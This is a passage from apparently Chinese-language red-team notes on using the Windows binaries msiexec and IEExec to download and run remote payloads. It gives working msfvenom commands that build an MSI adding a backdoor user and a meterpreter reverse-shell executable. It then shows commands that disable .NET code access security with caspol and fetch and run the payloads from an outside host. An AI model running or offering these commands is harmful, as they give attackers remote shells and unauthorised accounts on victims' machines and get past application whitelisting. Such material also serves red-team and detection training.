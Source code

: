 

# 9、msiexec
msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：
```
#生成msi包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
#远程执行
msiexec /q /i http://192.168.28.128/evil.msi
```

成功添加了一个test用户：<br />![20200413-9.png](../../_img\05-应急响应/1656916441957-b5603633-e174-4c21-889c-67c776a906b6.png)


# 10、IEExec
IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

生成Payload：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
```

使用管理员身份打开cmd，分别运行下面两条命令。

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
```
![20200413-10.png](../../_img\05-应急响应/1656916447442-60a3dd43-a197-4ba8-af53-41640ac98da7.png)
